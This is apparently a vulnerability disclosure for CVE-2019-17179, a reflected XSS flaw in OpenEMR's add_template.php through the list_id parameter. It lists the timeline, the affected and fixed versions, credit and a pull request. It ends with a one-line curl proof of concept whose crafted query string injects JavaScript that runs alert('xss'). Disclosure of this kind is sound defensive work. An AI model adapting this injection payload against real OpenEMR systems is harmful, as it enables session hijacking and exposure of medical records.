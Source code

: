 # CVE-2019-17179
XSS in `library/custom_template/add_template.php` in
OpenEMR before 5.0.2.1 allows a malicious user to
execute code in the context of a victim's browser via a crafted `list_id` query parameter.

## Timeline
* **Discovered:** October 1, 2019
* **Pull Request Issued:** October 1, 2019
* **Reported:** October 2, 2019
* **OpenEMR merged pull Request:** October 2, 2019
* **CVE ID issued:** October 4,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 4.1.0
* 4.1.1
* 4.1.2
* 4.1.2.3
* 4.1.2.6
* 4.1.2.7
* 4.2.0
* 4.2.1
* 4.2.2
* 5.0.0
* 5.0.0.5
* 5.0.0.6
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## References
[Pull Request](https://github.com/openemr/openemr/pull/2701)

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
curl "http://localhost/openemr/library/custom_template/add_template.php?list_id=1}});}}};alert(%27xss%27);function%20derp(){if%20(true){if(true){%20$.ajax({type:%22POST%22,data:{tempateid:%201"
```
